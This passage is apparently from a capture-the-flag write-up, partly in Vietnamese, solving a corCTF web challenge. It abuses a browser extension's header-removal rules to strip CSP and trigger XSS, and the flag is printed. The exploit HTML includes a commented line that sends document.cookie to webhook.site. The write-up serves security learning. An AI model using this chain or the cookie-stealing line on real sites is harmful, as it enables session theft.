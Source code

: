 ```html
            <input type='text' id='a5a' name='action.requestHeaders.0.header' value='user-agent'>
            <input type='text' id='a6a' name='action.requestHeaders.0.operation' value='remove'>
            
            <input type='text' id='a8a' name='condition.resourceTypes.0' value='main_frame'>
            <input type='text' id='a9a' name='condition.resourceTypes.1' value='sub_frame'>
            <input type='text' id='a0a' name='condition.resourceTypes.2' value='script'>
            <input type='text' id='a11a' name='condition.resourceTypes.3' value='other'>
            <input type='text' id='a22a' name='condition.resourceTypes.4' value='webtransport'>
            <input type='text' id='a33a' name='condition.resourceTypes.5' value='xmlhttprequest'>

            <input type='text' id='a44a' name='condition.initiatorDomains.0' value='localhost'>
        </form>
        </div>
    </header>
    `;

    
    document.querySelector("head").innerHTML = payload;
    setTimeout(async () => {
        document.querySelector("#submit-btn").click();
        await new Promise(r => setTimeout(r, 1000));
        open("/open.html")
    } , 2000)
    
</script>

<!-- <meta http-equiv="refresh" content="1; url=http://localhost:8080/challenge/3175c1a754da"> -->

<!-- <script>window.location="https://webhook.site/xxx/?c="+btoa(document.cookie) </script> -->
```

`open.html`:

```html
<script>
    setTimeout(() => {
        location.href="http://localhost:8080/challenge/8f63f212e1f6";
    }, 1000);

</script>
```

Đầu tiên ta sẽ trigger ghi rule vào `chrome.storage.local`, sau đó thực hiện truy cập vào trang 1 lần nữa để background script của extension thực hiện register rule này

![image](https://github.com/user-attachments/assets/24503b29-9ce4-4550-a52b-36cd25f43d27)

Mình tạo 2 note, 1 note chứa payload XSS và 1 note chứa payload redirect qua note còn lại, mục đích là để thỏa mãn điều kiện `initiatorDomains` do mình để là `http://localhost:8080`, ghi thực hiện redirect từ note 1 qua note 2 thì initiator sẽ là `http://localhost:8080` => điều kiện thỏa => CSP header bị remove => XSS

FLAG: `corctf{i_was_going_to_find_a_bug_in_ublock_but_it_was_easier_to_just_write_my_own_broken_extension}`
